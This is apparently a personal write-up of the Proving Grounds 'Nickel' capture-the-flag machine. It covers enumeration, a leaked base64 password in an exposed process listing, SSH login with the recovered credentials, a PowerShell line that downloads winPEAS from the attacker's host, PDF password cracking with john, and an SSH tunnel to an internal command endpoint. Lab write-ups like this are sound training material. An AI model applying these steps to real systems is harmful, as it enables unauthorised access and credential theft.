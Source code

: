 ```yaml
---
title: Proving-Ground-Nickel-Walkthrough
author: "RealFakeAccount"
date: "2022-06-18"
---
```


# Nickel

## Foothold

### Enumeration

```
Nmap scan report for 192.168.121.99
Host is up (0.019s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-18T20:30:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2022-06-17T20:16:10
|_Not valid after:  2022-12-17T20:16:10
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-06-18T20:29:03+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)
```

Nmap shows 8089 and 33333 are http page.

Looking through 8089 page, it seems to send request to 33333 page.

If we visit 33333 page directly, it's `Invalid Token`

If we try to query the resource that we find in 8089,
for example, `http://192.168.121.99:33333/list-current-deployments`
then we get 

```html
<p>Cannot "GET" /list-current-deployments</P>
```

emmm.. Cannot "GET".

Therefore we send the payload to burpsuite and try to post it:

```
POST /list-current-deployments HTTP/1.1
Host: 192.168.121.99:33333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

test
```

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-17-14-13.png)

We get not implemented.

I tried to wfuzz it and see if I can replace the data field of post so I can get more information.

```bash
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -d "FUZZ" --filter "chars!=22" http://192.168.121.99:33333/list-current-deployments
```

It didn't work.

### Break Through

But if we request another resource, `/list-running-procs`, it works.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-17-17-09.png)

We can see here we have a password passed through command line.

It seems to be base64 encoded. Decode it, and we get: `NowiseSloopTheory139`

We can login through ssh using the credential we found: `ariah:NowiseSloopTheory139`

Finally, we can find local.txt on the ariah's Desktop.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-17-19-22.png)

## Privilege Escalation

Upload winpeas using:

```ps1
(New-Object Net.WebClient).DownloadFile("http://192.168.49.121/winPEASx64.exe","C:\Users\ariah\Downloads\w.exe")
```

We find a pdf file in the `C:/ftp` folder, but it needs a password.

We crack it with john. First use `pdf2john` to generate hash, then use `john` and `rockyou` to crack it.

the password is `ariah4168`.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-08-01.png)

A `Temporary Command endpoint` exists on the server.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-02-55.png)

We also find that the 80 port is actually open. I suspect it's only accessable from internal network. That's why we didn't see it in the nmap scan.

Tunnel through using ssh:

```bash
ssh -N -L 0.0.0.0:80:192.168.121.99:80 ariah@192.168.121.99
```

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-04-16.png)

We can easily grab the proof.txt file.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-06-10.png)

